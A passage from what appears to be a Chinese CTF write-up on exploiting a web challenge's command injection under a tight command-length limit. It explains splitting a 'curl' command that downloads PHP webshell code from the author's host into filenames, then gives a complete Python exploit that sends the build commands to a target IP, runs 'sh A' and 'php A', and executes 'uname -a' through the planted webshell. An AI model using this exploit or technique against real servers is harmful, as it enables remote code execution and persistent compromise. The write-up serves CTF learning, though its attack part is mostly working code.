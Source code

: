 **<br>**

**开始表演**

假设我有一台目标服务器能够访问到的公网主机，为了方便我把该主机IP转换成长整数，然后利用以上的知识将 curl ip &gt; A 用续行方式切割成多行写进文件 A ，然后执行 sh A 就可以下载到预先放在公网主机上的文件并且覆盖本地的文件A，而下载下来的文件内容是用来写PHP木马的PHP代码，我再执行 php A就可以写个自己的webshell进去啦。

[![](https://p2.ssl.qhimg.com/t016294d3a767429eab.png)](https://p2.ssl.qhimg.com/t016294d3a767429eab.png)

这里比较取巧的是我的公网IP转成长整形恰好能分割成顺序的四段，如果构造不出来，可以试试十六进制，八进制，找台能用的主机等等：）或者继续往下看，还会有其他办法。

另外，其实GET也是能用的，只是目标主机里没有安装所以这题不能用。

接下来让我们完成最后30%的工作，写个exp。



```
# -*- coding:utf8 -*-
import requests as r
import hashlib
url = 'http://52.199.204.34/'
# 查询自己的IP
ip = r.get('http://ipv4.icanhazip.com/').text.strip()
sandbox = url + 'sandbox/' + hashlib.md5('orange' + ip).hexdigest() + '/'
 
reset = url + '?reset'
cmd = url + '?cmd='
build = ['&gt;cur\',
         '&gt;l \',
         'ls&gt;A',
         'rm c*',
         'rm l*',
         '&gt;105\',
         '&gt;304\',
         '&gt;301\',
         '&gt;9&gt;\',
         'ls&gt;&gt;A',
         'sh A',
         'php A'
         ]
# 如果目标服务器有GET，这个也是可以打的
# build = ['&gt;GE\',
#          '&gt;T\ \',
#          'ls&gt;A',
#          'rm G*',
#          'rm T*',
#          '&gt;105\',
#          '&gt;304\',
#          '&gt;301\',
#          '&gt;9&gt;\',
#          'ls&gt;&gt;A']
r.get(reset)
for i in build:
    s = r.get(cmd + i)
    print '[%s]' % s.status_code, s.url
 
s = r.get(sandbox + 'fun.php?cmd=uname -a')
print 'n' + '[%s]' % s.status_code, s.url
print s.text
```
